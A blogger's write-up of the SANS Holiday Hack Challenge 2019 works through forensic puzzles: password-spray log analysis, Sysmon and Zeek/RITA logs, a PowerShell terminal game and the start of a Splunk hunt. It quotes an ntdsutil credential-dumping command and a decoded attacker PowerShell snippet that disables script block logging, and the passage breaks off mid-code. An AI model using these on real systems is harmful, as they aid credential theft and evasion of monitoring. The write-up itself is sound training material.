


Holiday Hack Challenge 2019

KringleCon 2: Turtle Doves
Writeup by Kumaus
Who can say no to an invitation to visit Santa at Elf University during KringleCon 2? This is my first real attempt at a Holiday Hack Challenge, after some off-line experimentation with the older challenges to learn the ropes (excellent resource!!!). Bags were packed in a rush, I hopped on the famous North Pole train and arrived after an arduous journey at ELFU railway station.
Last year, KringleCon hosted over 17,500 attendees and my castle got a little crowded. We moved the event to Elf University (Elf U for short), the North Pole’s largest venue. Please feel free to explore, watch talks, and enjoy the con!

After a warm welcome by Santa himself, I started having a hop around Elf University. In the main quad, I bumped into Santa again, who had a matter of some urgency to discuss.
Our KringleCon turtle dove mascots are missing!
They probably just wandered off. Can you please help find them? To help you search for them and get acquainted with KringleCon, I’ve created some objectives for you. You can see them in your badge. Where's your badge? Oh! It's that big, circle emblem on your chest - give it a tap! We made them in two flavors - one for our new guests, and one for those who've attended both KringleCons.
After you find the Turtle Doves and complete objectives 2-5, please come back and let me know. Not sure where to start? Try hopping around campus and talking to some elves. If you help my elves with some quicker problems, they'll probably remember clues for the objectives.
This is the beginning of a long wild dove chase ...
The map shows a rough representation of ELFU campus and where the elves can be found. Red passages are not open initially and require something to be done. The gray pathways are the fast underground steam tunnel links which become available after helping Krampus get his lifetime cookie supply in objective 8.
Objective 1: Turtle Doves
After wandering around the university for a littl ewhile trying to get my bearing, I naturally ended up in the Student Union for a beer and a warm fire. To my great disappointment, beer was not available, just T-shirts, Splunk, Google and a strange booth labelled SANS. Sans beer, je pense ... but at least there was a fireplace. And next to the roaring fire, the two missing turtle doves were sitting, enjoying themselves. Great sense, actually, finding a cozy place instead of freezing their feet next to Santa in the arctic quad. I can really understand why they ran away. Got to break it to Santa now.
Objective 2: Unredact Threatening Document
Someone sent a threatening letter to Elf University. What is the first word in ALL CAPS in the subject line of the letter? Please find the letter in the Quad.
The letter is hidden behind a tree in the upper left corner of the quad (I know "upper" sounds completely wrong, but one can hardly say northwestern corner ... after all this is the north pole).
The letter was poorly redacted by placing a graphic as a layer above it, making the text invisible. With proper PDF manipulation tools one can remove the obstructing images. But the simplest way is to save the document as text (File → Save as other → Text in the Acrobat Reader).
Date: February 28, 2019
To the Administration, Faculty, and Staff of Elf University
17 Christmas Tree Lane
North Pole
From: A Concerned and Aggrieved Character
Subject: DEMAND: Spread Holiday Cheer to Other Holidays and Mythical Characters… OR
ELSE!
Confidential
Attention All Elf University Personnel,
It remains a constant source of frustration that Elf University and the entire operation at the
North Pole focuses exclusively on Mr. S. Claus and his year-end holiday spree. We URGE
you to consider lending your considerable resources and expertise in providing merriment,
cheer, toys, candy, and much more to other holidays year-round, as well as to other mythical
characters.
For centuries, we have expressed our frustration at your lack of willingness to spread your
cheer beyond the inaptly-called “Holiday Season.” There are many other perfectly fine
holidays and mythical characters that need your direct support year-round.
Confidential
If you do not accede to our demands, we will be forced to take matters into our own hands.
We do not make this threat lightly. You have less than six months to act demonstrably.
Sincerely,
--A Concerned and Aggrieved Character
Objective 3: Windows Log Analysis - Evaluate Attack Outcome
We're seeing attacks against the Elf U domain! Using the event log data, identify the user account that the attacker compromised using a password spray attack. Bushy Evergreen is hanging out in the train station and may be able to help you out.
I) Help Bushy Evergreen
Truth be told, I had completely forgotten about ed and the terrible mess one can get into while trying to escape the thing. To help Bushy and get out, simply enter "q" to quit or "wq" to write and quit.
II) Windows Log Analysis - Evaluate Attack Outcome
We are looking for evidence of a password spray attack, which can be defined as applying the same password to multiple user accounts in an organization to secure unauthorized access to one of those accounts. As evidence we are given a file Security.evtx containing security channel event logs from Windows: privilege allocations, login, logoff, etc. For some background on Windows event logging and .evtx files, here is a paper by Brandon Charter on the topic.
Security.evtx can be opened directly with the Windows Event Viewer, which can show individual logs and do basic filtering, but the analysis is quite unpleasant. DeepBlueCLI is a command line tool which correlates the events and draws conclusions. Invoking it on Security.evtx gives following output:
Date : 19.11.2019 13:22:46
Log : Security
EventID : 4648
Message : Distributed Account Explicit Credential Use (Password Spray Attack)
Results : The use of multiple user account access attempts with explicit credentials is an indicator of a password spray attack.
Target Usernames: ygoldentrifle esparklesleigh hevergreen Administrator sgreenbells cjinglebuns tcandybaubles bbrandyleaves bevergreen
lstripyleaves gchocolatewine wopenslae ltrufflefig supatree mstripysleigh pbrandyberry civysparkles sscarletpie ftwinklestockings
cstripyfluff gcandyfluff smullingfluff hcandysnaps mbrandybells twinterfig civypears ygreenpie ftinseltoes smary ttinselbubbles
dsparkleleaves
Accessing Username: -
Accessing Host Name: -
[... 11 more]
Date : 24.08.2019 02:00:20
Log : Security
EventID : 4672
Message : Multiple admin logons for one account
Results : Username: pminstix
User SID Access Count: 2
Date : 24.08.2019 02:00:20
Log : Security
EventID : 4672
Message : Multiple admin logons for one account
Results : Username: DC1$
User SID Access Count: 12
Date : 24.08.2019 02:00:20
Log : Security
EventID : 4672
Message : Multiple admin logons for one account
Results : Username: supatree
User SID Access Count: 2
Date : 24.08.2019 02:00:20
Log : Security
EventID : 4672
Message : High number of logon failures for one account
Results : Username: ygoldentrifle
Total logon failures: 77
[... 29 more]
Date : 24.08.2019 02:00:20
Log : Security
EventID : 4672
Message : High number of logon failures for one account
Results : Username: supatree
Total logon failures: 76
Date : 24.08.2019 02:00:20
Log : Security
EventID : 4672
Message : High number of total logon failures for multiple accounts
Results : Total accounts: 31
Total logon failures: 2386
The analysis shows that a password spray attack has definitely taken place, and that 31 accounts were affected. User supatree shows 76 failures and two successful admin logons, whereas all others show 77 failures. This makes it very likely that the supatree account was compromised. The other elf with admin logons, pminstix, did not appear in the password spray attack.
Objective 4: Windows Log Analysis - Determine Attacker Technique
Using these normalized Sysmon logs, identify the tool the attacker used to retrieve domain password hashes from the lsass.exe process. For hints on achieving this objective, please visit Hermey Hall and talk with SugarPlum Mary.
I) Help SugarPlum Mary
I need to review some files in my Linux terminal, but I can't get a file listing. I know the command is ls, but it's really acting up. Do you think you could help me out? As you work on this, think about these questions:
- Do the words in green have special significance?
- How can I find a file with a specific name?
- What happens if there are multiple executables with the same name in my $PATH?
The ls command is definitely acting up!
The green words in the terminal are useful basic linux commands which may help
in the search for ls:
| file | determine filetype |
| home/ | path of user folders |
| which | list filepath of command executabless |
| find | search through folder hierarchy |
| path | $PATH contains the search order of the shell |
| locate | similar to find, may be faster |
elf@acc7e121d80e:~$ which ls /usr/local/bin/ls elf@acc7e121d80e:~$ file /usr/local/bin/ls /usr/local/bin/ls: Bourne-Again shell script, ASCII text executable, with escape sequences elf@acc7e121d80e:~$ find / -name ls /usr/local/bin/ls find: '/root': Permission denied find: '/var/cache/apt/archives/partial': Permission denied find: '/var/cache/ldconfig': Permission denied find: '/var/lib/apt/lists/partial': Permission denied /bin/ls find: '/proc/tty/driver': Permission denied find: '/proc/1/task/1/fd': Permission denied find: '/proc/1/task/1/fdinfo': Permission denied find: '/proc/1/task/1/ns': Permission denied find: '/proc/1/fd': Permission denied find: '/proc/1/map_files': Permission denied find: '/proc/1/fdinfo': Permission denied find: '/proc/1/ns': Permission denied find: '/proc/6/task/6/fd': Permission denied find: '/proc/6/task/6/fdinfo': Permission denied find: '/proc/6/task/6/ns': Permission denied find: '/proc/6/fd': Permission denied find: '/proc/6/map_files': Permission denied find: '/proc/6/fdinfo': Permission denied find: '/proc/6/ns': Permission denied find: '/etc/ssl/private': Permission denied elf@acc7e121d80e:~$ echo $PATH /usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games elf@1255f6dd0ad9:~$ /bin/ls ' ' rejected-elfu-logos.txt Loading, please wait...... You did it! Congratulations!
The commands which and file show that the shell
search path leads first to a shellscript named ls in /usr/local/bin.
This underlines just how important a sanitized $PATH is! The "real"
ls command can be determined using find if necessary, and invoking
it with the full path /bin/ls solves SugarPlums problem. As a bonus:
some rejected ELFU logos SugarPlum has been playing with can be gleaned.
Have you tried the Sysmon and EQL challenge? If you aren't familiar with Sysmon, Carlos Perez has some great info about it. Haven't heard of the Event Query Language? Check out some of Ross Wolf's work on EQL or that blog post by Josh Wright in your badge.
II) Windows Log Analysis - Determine Attacker Technique
The hint on Event Query Language by SugarPlum Mary leads to an excellent explanation of this powerful command line tool, complete with abundant example files. However, just to solve the objective, all this is not really necessary. We are asked to identify a tool used to get data from the lsass process, so I did a simple text search of sysmon-data.json for lsass.exe. Only one record matched, with process ID 3440. The next record timewise features a child process of this (ppid = 3440): ntdsutil.exe.
{
"command_line": "C:\\Windows\\system32\\cmd.exe",
"event_type": "process",
"logon_id": 999,
"parent_process_name": "lsass.exe",
"parent_process_path": "C:\\Windows\\System32\\lsass.exe",
"pid": 3440,
"ppid": 632,
"process_name": "cmd.exe",
"process_path": "C:\\Windows\\System32\\cmd.exe",
"subtype": "create",
"timestamp": 132186398356220000,
"unique_pid": "{7431d376-dedb-5dd3-0000-001027be4f00}",
"unique_ppid": "{7431d376-cd7f-5dd3-0000-001013920000}",
"user": "NT AUTHORITY\\SYSTEM",
"user_domain": "NT AUTHORITY",
"user_name": "SYSTEM"
},
{
"command_line": "ntdsutil.exe \"ac i ntds\" ifm \"create full c:\\hive\" q q",
"event_type": "process",
"logon_id": 999,
"parent_process_name": "cmd.exe",
"parent_process_path": "C:\\Windows\\System32\\cmd.exe",
"pid": 3556,
"ppid": 3440,
"process_name": "ntdsutil.exe",
"process_path": "C:\\Windows\\System32\\ntdsutil.exe",
"subtype": "create",
"timestamp": 132186398470300000,
"unique_pid": "{7431d376-dee7-5dd3-0000-0010f0c44f00}",
"unique_ppid": "{7431d376-dedb-5dd3-0000-001027be4f00}",
"user": "NT AUTHORITY\\SYSTEM",
"user_domain": "NT AUTHORITY",
"user_name": "SYSTEM"
}
A nice explanation of how the command
ntdsutil.exe "ac i ntds" ifm "create full c:\\hive\" q q is used to
pull credentials can be found in this blog.
Objective 5: Windows Log Analysis - Determine Compromised System
The attacks don't stop! Can you help identify the IP address of the malware-infected system using these Zeek logs? For hints on achieving this objective, please visit the Laboratory and talk with Sparkle Redberry.
I) Help Sparkle Redberry
... when it's working!
For me, this was easily the hardest elf terminal challenge. PowerShell is a powerfull, but initially counterintuitive language which took some getting used to. The cheat sheet provided in the hint was a huge help!
Starting with the calling card, a trail of hints leads to settings for
angle, refraction, temperature and gas mixture
in the laser API.
The calling card can be read by Get-Content /home/callingcard.txt:
Fa la la la la, la la la la
Seems you can't now seem to raise her!
Fa la la la la, la la la la
Could commands hold riddles in hist'ry?
Fa la la la la, la la la la
Nay! You'll ever suffer myst'ry!
Fa la la la la, la la la la
PS /home/elf> Get-History
Id CommandLine
-- -----------
1 Get-Help -Name Get-Process
2 Get-Help -Name Get-*
3 Set-ExecutionPolicy Unrestricted
4 Get-Service | ConvertTo-HTML -Property Name, Status > C:\services.htm
5 Get-Service | Export-CSV c:\service.csv
6 Get-Service | Select-Object Name, Status | Export-CSV c:\service.csv
7 (Invoke-WebRequest http://127.0.0.1:1225/api/angle?val=65.5).RawContent
8 Get-EventLog -Log "Application"
9 I have many name=value variables that I share to applications system wide.
At a command I will reveal my secrets once you Get my Child Items.
The command history spits out the first parameter, angle = 65.5, and also gives
the exact format required to feed the laser API (ignoring this cost me a lot of
time later). Id 9 contains a long line of text giving the next hint. Because
Get-History truncates long lines in its plain form, I used
Get-History | Format-List CommandLine to see everything (adapted
in the listing above). It is interesting that the command history also
includes Get-Service calls, trying to write the results to C:\.
However, Get-Service seems to be blocked on this terminal,
C:\ does not exist (unix file system) and *.csv cannot be found. Strange ...
a red herring maybe?
The line with ID 9 poses a riddle hinting at environment variables
(name=value pairs, shared with systemwide applications). In PowerShell, they
are kept in Env:, which functions as a kind of drive.
The second half of the riddle tells to access them via the command
Get-ChildItem, or gci in short:
PS /home/elf> gci Env:
Name Value
---- -----
_ /bin/su
DOTNET_SYSTEM_GLOBALIZATION_I… false
HOME /home/elf
HOSTNAME 038aefb857b4
LANG en_US.UTF-8
LC_ALL en_US.UTF-8
LOGNAME elf
MAIL /var/mail/elf
PATH /opt/microsoft/powershell/6:/usr/local/sbin:/usr/local/bi…
PSModuleAnalysisCachePath /var/cache/microsoft/powershell/PSModuleAnalysisCache/Mod…
PSModulePath /home/elf/.local/share/powershell/Modules:/usr/local/shar…
PWD /home/elf
RESOURCE_ID fe859679-df0b-4c48-af66-a50bd92ede88
riddle Squeezed and compressed I am hidden away. Expand me from …
SHELL /home/elf/elf
SHLVL 1
TERM xterm
USER elf
userdomain laserterminal
USERDOMAIN laserterminal
username elf
USERNAME elf
The next riddle! To get the full line, use Get-Content or
gc in short:
PS /home/elf> gc Env:riddle
Squeezed and compressed I am hidden away. Expand me from my prison and I will show
you the way. Recurse through all /etc and Sort on my LastWriteTime to reveal im the
newest of all.
"squeezed and compressed" probably means an archive. To find the most recent item in /etc and its subdirectories, several commands have to be linked by pipes:
gci /etc -recurse | List /etc and all its subdirectories |
| sort LastWriteTime -Descending | Sort by last writing time, most recent first |
| select -First 1 | Filter first item on list |
PS /home/elf> gci /etc -recurse | sort LastWriteTime -Descending | select -First 1
Directory: /etc/apt
Mode LastWriteTime Length Name
---- ------------- ------ ----
--r--- 1/9/20 1:19 PM 5662902 archive
leaving out error messages caused by missing access rights.
A powershell archive called archive, how nice. To expand it into
the home directory, use the command Expand-Archive.
The parameter -PassThru causes the archive contents to be printed.
PS /home/elf> Expand-Archive /etc/apt/archive -PassThru -DestinationPath .
Directory: /home/elf
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 1/9/20 2:16 PM refraction
Directory: /home/elf/refraction
Mode LastWriteTime Length Name
---- ------------- ------ ----
------ 11/7/19 11:57 AM 134 riddle
------ 11/5/19 2:26 PM 5724384 runme.elf
Trying to run runme.elf fails, and looking at the directory listing
shows why: execution privileges are not set (no privileges at all, actually).
But how to set them in PowerShell? Theoretically there is a command
Set-Acl to do this, but that is not recognized by the terminal.
Maybe luckily, because PowerShell access right management looks like an
advanced form of medieval torture. Not for the faint-hearted! Instead,
as I found out by trial and error, the terminal appears to accept the linux
chmod command! This does not really make sense, because chmod is
not listed as a PS alias (Get-Alias), and it certainly
does not work on my Win10 PowerShell.
PS /home/elf/refraction> ./runme.elf Program 'runme.elf' failed to run: No such file or directoryAt line:1 char:1 + ./runme.elf + ~~~~~~~~~~~. At line:1 char:1 + ./runme.elf + ~~~~~~~~~~~ + CategoryInfo : ResourceUnavailable: (:) [], ApplicationFailedException + FullyQualifiedErrorId : NativeCommandFailed PS /home/elf/refraction> chmod 777 runme.elf PS /home/elf/refraction> ./runme.elf refraction?val=1.867 PS /home/elf/refraction> gci . Directory: /home/elf/refraction Mode LastWriteTime Length Name ---- ------------- ------ ---- ------ 11/7/19 11:57 AM 134 riddle ------ 11/5/19 2:26 PM 5724384 runme.elf PS /home/elf/refraction> gc riddle Very shallow am I in the depths of your elf home. You can find my entity by using my md5 identity: 25520151A320B5B0D21561F92C8F6224
After the chmod, a directory listing shows no change to permissions, but running the file runme.elf magically works. Ours is not to question why, ours is to do and help Santa. Lets take refraction=1.867 and move on.
The next riddle clearly refers to the aptly named folder depths in /home/elf. It is a monster! A deep tree of folders, with many different files. I cheated a bit here, simply searched for files containing an equal sign in the text, and got lucky:
PS /home/elf> gci depths -r -force | sls -pattern =
depths/produce/thhy5hll.txt:1:temperature?val=-33.5
This command recursively (-r) lists the contents of depth and all its
subfolders, including hidden files (-force) just in case.
sls is shorthand for Select-String, which searches
for a pattern.
A more honest approach would have been to divine from the hint that target
is very shallow in the directory tree, i.e. at depth 1. A gci at depth 1
can be done by gci depths | ForEach-Object {gci $_ -File},
where each folder within depths is listed (excluding all files in depths).
The results are subjected to a Where-Object condition (shorthand ?
or where) testing for the correct MD5 hash. Surprisingly, this works too:
PS /home/elf> gci depths | ForEach-Object {gci $_ -File} | where {(Get-FileHash $_ -Algorithm MD5).Hash -eq '25520151A320B5B0D21561F92C8F6224'} Directory: /home/elf/depths/produce Mode LastWriteTime Length Name ---- ------------- ------ ---- --r--- 11/18/19 7:53 PM 224 thhy5hll.txt PS /home/elf> gc ./depths/produce/thhy5hll.txt temperature?val=-33.5 I am one of many thousand similar txt's contained within the deepest of /home/elf/depths. Finding me will give you the most strength but doing so will require Piping all the FullName's to Sort Length.
PS /home/elf> dir *.txt -Recurse | Get-FileHash -Algorithm MD5
| where {$_.Hash -eq '25520151A320B5B0D21561F92C8F6224'} | Format-Table -Wrap
The third parameter is found: temperature=-33.5. And yet another hint,
leading into the deepest murky depths of depths. Starting from a recursive
listing of depths, the FullName property of each file
(including the complete path) is accessed by
gci -Directory -r | select FullName.
The -ExpandProperty parameter insures that the output is
just the FullName strings rather than file objects. Also, the recursion
is limited to directories in order to improve speed.
PS /home/elf> gci -Directory -r | select -ExpandProperty FullName
| sort length -descending | select -First 1
/home/elf/depths/larger/cloud/behavior/beauty/enemy/produce/age/chair/unknown/escap
e/vote/long/writer/behind/ahead/thin/occasionally/explore/tape/wherever/practical/t
herefore/cool/plate/ice/play/truth/potatoes/beauty/fourth/careful/dawn/adult/either
/burn/end/accurate/rubbed/cake/main/she/threw/eager/trip/to/soon/think/fall/is/grea
test/become/accident/labor/sail/dropped/fox
Piping the resulting list of full path names to sort in order to
find the longest leads to a really huge folder path. This contains only a single
text file, 0jhj5xz6.txt:
Get process information to include Username identification.
Stop Process to show me you're skilled and in this order they must be killed:
bushy
alabaster
minty
holly
Do this for me and then you /shall/see .
Currently, the folder /shall exists, but is empty. So let's follow instructions, list all active processes including user name and kill the sleeping elf processes in the desired order. After the gruesome deed, the /shall folder is no longer empty:
PS /home/elf> gci /shall PS /home/elf> Get-Process -IncludeUserName WS(M) CPU(s) Id UserName ProcessName ----- ------ -- -------- ----------- 26.93 0.75 6 root CheerLaserServi 116.98 1.87 31 elf elf 3.55 0.03 1 root init 0.80 0.00 23 bushy sleep 0.82 0.00 26 alabaster sleep 0.71 0.00 27 minty sleep 0.86 0.00 29 holly sleep 3.49 0.00 30 root su PS /home/elf> Stop-Process -Id 23 PS /home/elf> Stop-Process -Id 26 PS /home/elf> Stop-Process -Id 27 PS /home/elf> Stop-Process -Id 29 PS /home/elf> gci /shall Directory: /shall Mode LastWriteTime Length Name ---- ------------- ------ ---- --r--- 1/9/20 10:33 PM 149 see PS /home/elf> gc /shall/see Get the .xml children of /etc - an event log to be found. Group all .Id's and the last thing will be in the Properties of the lonely unique event Id.
Oh goodie, another riddle! The event log is found by recursively listing all elements in /etc with suffix .xml. Only a single file is found, but that is large and ugly. XML operations is where PowerShell really shines. After packing the file into a single variable and casting to XML, the structure can be navigated elegantly (supposedly).
PS /home/elf> gci /etc -recurse -include *.xml Directory: /etc/systemd/system/timers.target.wants Mode LastWriteTime Length Name ---- ------------- ------ ---- --r--- 11/18/19 7:53 PM 10006962 EventLog.xml PS /home/elf> [xml]$ev = gc /etc/systemd/system/timers.target.wants/EventLog.xml PS /home/elf> $ev Objs ---- Objs PS /home/elf> $ev.Objs Version xmlns Obj ------- ----- --- 1.1.0.1 http://schemas.microsoft.com/powershell/2004/04 {Obj, Obj, Obj, Obj…} PS /home/elf> $ev.Objs.Obj.Count 1224
The EventLog is structured as an array of 1224 Obj event objects under a root Objs. Each of these event objects has a huge InnerXml structure, which may vary between events. As an example, the first two levels of the first event are
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
<Obj RefId="0">
<TN RefId="0">
<T>System.Diagnostics.Eventing.Reader.EventLogRecord</T>
<T>System.Diagnostics.Eventing.Reader.EventRecord</T>
<T>System.Object</T>
</TN>
<ToString>System.Diagnostics.Eventing.Reader.EventLogRecord</ToString>
<Props>
<I32 N="Id">3</I32>
<By N="Version">5</By>
<Nil N="Qualifiers" />
<By N="Level">4</By>
<I32 N="Task">3</I32>
<I16 N="Opcode">0</I16>
<I64 N="Keywords">-9223372036854775808</I64>
<I64 N="RecordId">2194</I64>
<S N="ProviderName">Microsoft-Windows-Sysmon</S>
<G N="ProviderId">5770385f-c22a-43e0-bf4c-06f5698ffbd9</G>
<S N="LogName">Microsoft-Windows-Sysmon/Operational</S>
<I32 N="ProcessId">1960</I32>
<I32 N="ThreadId">6648</I32>
<S N="MachineName">elfuresearch</S>
<Obj N="UserId" RefId="1">
...
</Obj>
<DT N="TimeCreated">2019-11-07T09:51:22.6559745-08:00</DT>
<Nil N="ActivityId" />
<Nil N="RelatedActivityId" />
<S N="ContainerLog">microsoft-windows-sysmon/operational</S>
<Obj N="MatchedQueryIds" RefId="2">
...
</Obj>
<Obj N="Bookmark" RefId="3">
...
</Obj>
<S N="LevelDisplayName">Information</S>
<S N="OpcodeDisplayName">Info</S>
<S N="TaskDisplayName">Network connection detected (rule: NetworkConnect)</S>
<Obj N="KeywordsDisplayNames" RefId="4">
...
</Obj>
<Obj N="Properties" RefId="5">
...
</Obj>
</Props>
<MS>
<S N="Message">Network connection detected:...[snip]...DestinationPortName: ntp</S>
</MS>
</Obj>
...
</Objs>
According to the hint, the events should be grouped by event ID, which is
located in $ev.Objs.Obj.Props under the tag <I32 N="Id">.
So, we select all I32 children with attribute N="Id", and group by element value.
The only unique event ID turns out to be 1. To get the associated event properties,
I selected the event ID tag, moved to the parent node and assigned the child Obj
with N="Properties" to a new variable.
PS /home/elf> $ev.Objs.Obj.Props.I32 | ? N -eq "Id" | group "#text" Count Name Group ----- ---- ----- 1 1 {I32} 39 2 {I32, I32, I32, I32…} 179 3 {I32, I32, I32, I32…} 2 4 {I32, I32} 905 5 {I32, I32, I32, I32…} 98 6 {I32, I32, I32, I32…} PS /home/elf> $unique = ($ev.objs.Obj.Props.I32 | ? N -eq "Id" | ? "#text" -eq 1).ParentNode.Obj |? N -eq "Properties"
The event properties are essentially a list of 22 objects with different RefId.
I was not able to find a way to prettyprint this within the terminal, so I
extracted $unique.InnerXml and sent it to an online service.
The object with RefId="1806" turns out to be the one:
<Obj RefId="18016">
<TNRef RefId="1806" />
<ToString>
System.Diagnostics.Eventing.Reader.EventProperty
</ToString>
<Props>
<S N="Value">
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c
"`$correct_gases_postbody = @{`n O=6`n H=7`n He=3`n
N=4`n Ne=22`n Ar=11`n Xe=10`n F=20`n Kr=8`n Rn=9`n}`n"
</S>
</Props>
</Obj>
PS /home/elf> Select-String -Path ./EventLog.xml -Pattern '<I32 n="Id">' | Group-Object -Property Line PS /home/elf> Select-String -Path ./EventLog.xml -Pattern '<I32 n="Id">1</I32>' -Context 10,200
The laser settings are now finally complete:
| temperature: | -33.5 |
| angle: | 65.5 |
| refraction: | 1.867 |
| gases: | O=6, H=7, He=3, N=4, Ne=22, Ar=11, Xe=10, F=20, Kr=8, Rn=9 |
The final step is to write them to the laser API, which is described
under the link given on the introduction screen:
(Invoke-WebRequest -Uri http://localhost:1225/).RawContent
The following sequence of WebRequests worked for me:
$gases = @{O=6; H=7; He=3; N=4; Ne=22; Ar=11; Xe=10; F=20; Kr=8; Rn=9}
Invoke-WebRequest -Uri http://localhost:1225/api/off
Invoke-WebRequest -Uri http://localhost:1225/api/refraction?val=1.867
Invoke-WebRequest -Uri http://localhost:1225/api/temperature?val=-33.5
Invoke-WebRequest -Uri http://localhost:1225/api/angle?val=65.5
Invoke-WebRequest -Uri http://localhost:1225/api/gas -Method POST -Body $gases
Invoke-WebRequest -Uri http://localhost:1225/api/on
(Invoke-WebRequest -Uri http://localhost:1225/api/output).RawContent
There was a very nasty pitfall / bug at this point which cost me several days: The success message also comes up in the API if the final WebRequest is sent without the RawContent property. But for no apparent reason, Sparkle Redberry does not take note, the achievement does not register and no further hints are forthcoming. All the RawContent property does is include the HTTP header information in the response, but it turns out to be essential in the output WebRequest. The only hint to use RawContent appeared in the history list right in the beginning, where the angle parameter was found.
For objective 5, have you taken a look at our Zeek logs? Something's gone wrong.
But I hear someone named Rita can help us. Can you and she figure out what happened?
II) Windows Log Analysis - Determine Compromised System
Zeek is a network analysis framework which generates events when "something happens". We are given a folder with 900 logs on diverse network topics, most of them large and detailled. A full list of log types can be found here. To analyse all this, the previous hint by Sparkle Redberry indicated RITA, an open-source framework for network traffic analysis. Luckily, the RITA analysis has already been done by friendly elves and been placed in the Zeek log folder, saving me the hassle of installing RITA. The homepage contains several videos explaining how to use the analysis.
We are looking for a beacon, i.e. a system opening outside connections very frequently. Looking at the Beacons tab of the RITA analysis, one connection path stands out, being used very frequently, with 7660 connections and a very high "beacon score" of 99.8%. The source IP address 192.168.134.130 belongs to the malware infected system, and the destination address 144.202.46.214 will be its command and control server. The same address reappears in the Splunk analysis in Objective 6.
Objective 6: Splunk
Access https://splunk.elfu.org/ as elf with password elfsocks. What was the message for Kent that the adversary embedded in this attack? The SOC folks at that link will help you along! For hints on achieving this objective, please visit the Laboratory in Hermey Hall and talk with Prof. Banas.
This term, I'm teaching "HOL 404: The Search for Holiday Cheer in Popular Culture," and I've had quite a shock! I was at home enjoying a nice cup of Gløgg when I had a call from Kent, one of my students who interns at the Elf U SOC. Kent said that my computer has been hacking other computers on campus and that I needed to fix it ASAP! If I don't, he will have to report the incident to the boss of the SOC.
Apparently, I can find out more information from this website https://splunk.elfu.org/ with the username: elf / Password: elfsocks. I don't know anything about computer security. Can you please help me?
This challenge was a totally new experience and a massive surprise to me. I didn't have any previous experience with blue team work, and the idea of spelunking through haystacks of logs always sounded like a pleasure second only to dentistry a la Marathon Man (which is strangely appropriate, given the identity of the supervillain this year). I stand corrected! This guided tour made an otherwise impossible (to me at least) challenge quite easy, and a great learning experience which also helped in log crawls to follow. Kudos! Lets start ...
Two major resources are introduced first, the search page which forms the centerpiece of Splunk, and the file archives to be searched. For each of the seven training questions, a chat window discusses the issue and guides through the basic techniques required to solve it.
Question 1:
What is the short host name of Professor Banas' computer?
Looking up the #ELFU SOC chatroom gives the first answer
as a welcome present:
→ sweetums
Question 2:
What is the name of the sensitive file that was
likely accessed and copied by the attacker?
Please provide the fully
qualified location of the file. (Example: C:\temp\report.pdf)
It is pointed out that Prof. Banas is the ideal target for an attack: close to "the big guy", and clueless regarding security. So, if anything sensitive has gome missing, it probably has something to do with Santa. Searching for "santa" leads to 11 logged events. Ten of them are caused by PowerShell commands with huge, base64 encoded command lines. One decoded example:
IF($PSVerSioNTaBLe.PSVERsIOn.MAJor -gE 3){
$GPF=[Ref].ASsEMBly.GETTyPE('System.Management.Automation.Utils')."GEtFiE`Ld"('cachedGroupPolicySettings','N'+'onPublic,Static');
IF($GPF){
$GPC=$GPF.GeTVAluE($nUlL);
If($GPC['ScriptB'+'lockLogging']){
$GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;
$GPC['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0
